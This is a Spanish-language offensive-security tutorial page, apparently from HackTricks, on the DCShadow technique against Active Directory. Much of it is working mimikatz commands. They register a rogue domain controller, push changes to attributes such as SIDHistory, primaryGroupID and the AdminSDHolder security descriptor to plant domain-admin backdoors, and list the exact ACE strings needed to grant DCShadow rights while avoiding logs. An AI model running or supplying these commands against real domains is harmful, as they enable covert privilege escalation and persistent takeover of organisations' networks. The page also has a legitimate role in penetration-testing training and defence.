 {{#include ../../banners/hacktricks-training.md}}

# DCShadow

Registra un **nuevo Controlador de Dominio** en el AD y lo utiliza para **empujar atributos** (SIDHistory, SPNs...) en objetos especificados **sin** dejar ningún **registro** sobre las **modificaciones**. **Necesitas privilegios de DA** y estar dentro del **dominio raíz**.\
Ten en cuenta que si usas datos incorrectos, aparecerán registros bastante feos.

Para realizar el ataque necesitas 2 instancias de mimikatz. Una de ellas iniciará los servidores RPC con privilegios de SYSTEM (aquí debes indicar los cambios que deseas realizar), y la otra instancia se utilizará para empujar los valores:
```bash:mimikatz1 (RPC servers)
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```

```bash:mimikatz2 (push) - Needs DA or similar
lsadump::dcshadow /push
```
Nota que **`elevate::token`** no funcionará en la sesión `mimikatz1` ya que eso eleva los privilegios del hilo, pero necesitamos elevar el **privilegio del proceso**.\
También puedes seleccionar un objeto "LDAP": `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

Puedes enviar los cambios desde un DA o desde un usuario con estos permisos mínimos:

- En el **objeto de dominio**:
- _DS-Install-Replica_ (Agregar/Quitar Réplica en Dominio)
- _DS-Replication-Manage-Topology_ (Gestionar Topología de Replicación)
- _DS-Replication-Synchronize_ (Sincronización de Replicación)
- El **objeto de Sitios** (y sus hijos) en el **contenedor de Configuración**:
- _CreateChild y DeleteChild_
- El objeto de la **computadora que está registrada como un DC**:
- _WriteProperty_ (No Write)
- El **objeto objetivo**:
- _WriteProperty_ (No Write)

Puedes usar [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) para otorgar estos privilegios a un usuario sin privilegios (ten en cuenta que esto dejará algunos registros). Esto es mucho más restrictivo que tener privilegios de DA.\
Por ejemplo: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose` Esto significa que el nombre de usuario _**student1**_ al iniciar sesión en la máquina _**mcorp-student1**_ tiene permisos de DCShadow sobre el objeto _**root1user**_.

## Usando DCShadow para crear puertas traseras
```bash:Set Enterprise Admins in SIDHistory to a user
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```

```bash:Chage PrimaryGroupID (put user as member of Domain Administrators)
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```

```bash:Modify ntSecurityDescriptor of AdminSDHolder (give Full Control to a user)
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
## Shadowception - Dar permisos a DCShadow usando DCShadow (sin registros de permisos modificados)

Necesitamos agregar los siguientes ACEs con el SID de nuestro usuario al final:

- En el objeto de dominio:
- `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
- `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
- `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
- En el objeto de computadora del atacante: `(A;;WP;;;UserSID)`
- En el objeto de usuario objetivo: `(A;;WP;;;UserSID)`
- En el objeto de Sitios en el contenedor de Configuración: `(A;CI;CCDC;;;UserSID)`

Para obtener el ACE actual de un objeto: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl`

Ten en cuenta que en este caso necesitas hacer **varios cambios,** no solo uno. Así que, en la **sesión mimikatz1** (servidor RPC) usa el parámetro **`/stack` con cada cambio** que quieras hacer. De esta manera, solo necesitarás **`/push`** una vez para realizar todos los cambios acumulados en el servidor rogue.

[**Más información sobre DCShadow en ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

{{#include ../../banners/hacktricks-training.md}}
